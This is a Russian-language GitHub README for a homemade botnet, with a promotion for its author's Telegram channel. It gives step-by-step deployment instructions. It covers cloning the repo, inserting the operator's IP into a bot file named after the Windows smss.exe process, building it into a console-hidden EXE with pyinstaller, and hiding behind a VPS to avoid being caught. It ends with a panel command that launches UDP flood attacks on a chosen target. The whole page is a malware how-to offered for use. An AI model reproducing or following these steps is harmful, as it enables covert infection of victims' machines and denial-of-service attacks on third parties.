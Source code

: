 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Лучше всего проверить работоспособность на себе ,а потом заливать куда-то<br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd fuck_you_ru
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать (Свой/VPS) ip <br>
```
ifconfig
```
Редактируем файл smss.py вставляем свой ip чтобы всё "боты" могли подключиться к вашей панели<br>

```python
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
```
Почему smss? -Підсистема диспетчера сеансів, або smss.exe, є компонентом сімейства операційних систем Microsoft
Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки pyinstaller в нашем директории fuck_you_ru <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py
```
<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Инфо (Ваши боты в тайне будут каждые 10 секунду проверять подключение к панели)
```
Error connecting ('ip', 9999)| Sleep 10 seconds
```
Запус панели ботнета<br>
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
